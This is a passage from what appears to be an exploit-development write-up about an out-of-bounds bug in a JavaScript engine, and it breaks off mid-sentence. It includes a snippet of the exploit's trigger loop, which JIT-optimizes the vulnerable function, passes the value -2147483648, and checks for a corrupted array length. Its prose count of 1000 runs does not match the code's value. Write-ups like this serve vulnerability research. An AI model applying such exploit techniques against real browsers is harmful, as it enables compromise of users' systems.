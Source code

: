 The butterflies are contiguos and as such, an out of bound access may allows
access to the following ones.

### Triggering the bug

The previously discussed trigger function executed 1000 times, this is a useful
trick to increase stability by attempting triggering the bug multiple times
rather than a single shot attempt.

```javascript
 [...]
 81 const ITERATIONS = 10000000;
 82 
 83 print("[*] optimizing vulnerable function...")
 84 for (let i = 1; i <= ITERATIONS; i++) {
 85     let n = -4;
 86     if (i % 10000 == 0) {
 87         n = -2147483648;
 88     }
 89     trigger_bug(target, n);
 90     if (float_arr.length == 0x1337) {
 91         break;
 92     }
 93 }
 [...]
 ```

After the out of bound access, the memory layout changes as follows:
